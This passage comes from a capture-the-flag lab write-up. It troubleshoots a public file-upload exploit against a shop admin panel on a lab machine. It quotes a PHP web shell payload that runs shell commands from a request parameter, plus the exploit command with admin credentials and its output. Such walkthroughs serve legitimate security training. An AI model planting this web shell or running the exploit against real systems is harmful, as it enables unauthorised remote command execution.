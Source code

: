 So the upload succeeded, but the execution isn’t working. I can check that a different way by modifying the script. It’s this line that sets the payload:

```

files = {
        'vqmod': (rand + ".php", "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }

```

I’ll change that to something more benign:

```

files = {
        'vqmod': (rand + ".php", "<?php echo '0xdf was here'; } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }

```

It works:

```

root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/XPKU4.php?c=id
0xdf was here

```

`phpinfo()` will provide useful information about the box:

```

files = {
        'vqmod': (rand + ".php", '<?php phpinfo();  ?>', "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }

```

```

root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/DPYLZ.php?c=id
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
...[snip]...

```
